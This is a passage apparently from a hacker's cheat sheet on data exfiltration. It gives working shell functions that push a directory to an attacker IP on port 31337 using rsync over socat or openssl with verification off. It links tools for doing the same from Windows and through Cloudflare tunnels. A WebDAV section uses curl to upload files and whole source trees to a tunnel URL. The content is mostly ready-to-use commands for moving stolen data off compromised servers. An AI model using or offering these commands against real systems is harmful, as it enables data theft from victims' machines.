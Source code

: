 Sender:
```posh
# Copy the ssl.pem from the Receiver to the Sender and send directory named 'warez'
IP=1.2.3.4
PORT=31337
# Using rsync + socat-ssl
up1() {
   rsync -ahPRv -e "bash -c 'socat - OPENSSL-CONNECT:${IP:?}:${PORT:-31337},cert=ssl.pem,cafile=ssl.pem,verify=0' #" -- "$@"  0:
}
# Using rsync + openssl
up2() {
   rsync -ahPRv -e "bash -c 'openssl s_client -connect ${IP:?}:${PORT:-31337} -servername example.com -cert ssl.pem -CAfile ssl.pem -quiet 2>/dev/null' #" -- "$@"  0:
}
up1 /var/www/./warez
up2 /var/www/./warez
```

Rsync can be combined to exfil via [https / cloudflared raw TCP tunnels](https://iq.thc.org/tunnel-via-cloudflare-to-any-tcp-service).  
(To exfil from Windows, use the rsync.exe from the [gsocket windows package](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip)). A noisier solution is [syncthing](https://syncthing.net/).

Pro Tip: Lazy hackers just type `exfil` on segfault.net.

---
<a id="webdav"></a>
### 4.x. File transfer - using WebDAV

On the receiver (e.g. segfault.net) start a Cloudflare-Tunnel and WebDAV:
```sh
cloudflared tunnel --url localhost:8080 &
# [...]
# +--------------------------------------------------------------------------------------------+
# |  Your quick Tunnel has been created! Visit it at (it may take some time to be reachable):  |
# |  https://example-foo-bar-lights.trycloudflare.com                                          |
# +--------------------------------------------------------------------------------------------+
# [...]
wsgidav --port=8080 --root=.  --auth=anonymous
```

On another server:
```sh
# Upload a file to your workstation
curl -T file.dat https://example-foo-bar-lights.trycloudflare.com
# Create a directory remotely
curl -X MKCOL https://example-foo-bar-lights.trycloudflare.com/sources
# Create a directory hierarchy remotely
find . -type d | xargs -I{} curl -X MKCOL https://example-foo-bar-lights.trycloudflare.com/sources/{}
# Upload all *.c files (in parallel):
find . -name '*.c' | xargs -P10 -I{} curl -T{} https://example-foo-bar-lights.trycloudflare.com/sources/{}
```
